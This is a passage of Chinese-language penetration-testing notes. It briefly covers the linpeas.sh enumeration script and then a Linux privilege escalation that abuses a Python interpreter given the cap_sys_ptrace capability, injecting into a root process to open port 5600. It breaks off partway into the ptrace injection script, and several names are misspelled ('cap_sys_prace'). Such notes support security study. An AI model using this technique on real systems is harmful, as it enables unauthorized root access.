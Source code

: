 ### 信息搜集脚本

linpeas.sh （自己下载）

1. what？

    ​		LinPeas.sh都是Linux环境下的本地枚举工具，用于渗透测试和漏洞利用。发现系统各种信息

    给予执行权限（==chmod +x lenpease.s==h），运行脚本即可。同时，它还会给出一些潜在的攻击点，

    ==注意==要有有足够权限，否则无法完全探测，同时系统不能有一些防护措施。

2. 直接执行就可以了。

### 提权漏洞

#### capabilities的cap_sys_prace权漏洞

1. 用途

    用于capabilities的cap_sys_prace配置不当来进行提取

2. 使用条件

    1. python的解释权有 cap_sys_prace权限
    2. 找到一个有root权限的进程

3. 如何是使用

    1. python2.7 script.py id

        id为一个root用户的程序

    2. 使用完脚本后会自动打开靶机的 `5600`端口

        ```python
        # inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
        # GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 
        
        import ctypes
        import sys
        import struct
        
        # Macros defined in <sys/ptrace.h>
        # https://code.woboq.org/qt5/include/sys/ptrace.h.html
        
        PTRACE_POKETEXT   = 4
        PTRACE_GETREGS    = 12
        PTRACE_SETREGS    = 13
        PTRACE_ATTACH     = 16
        PTRACE_DETACH     = 17
        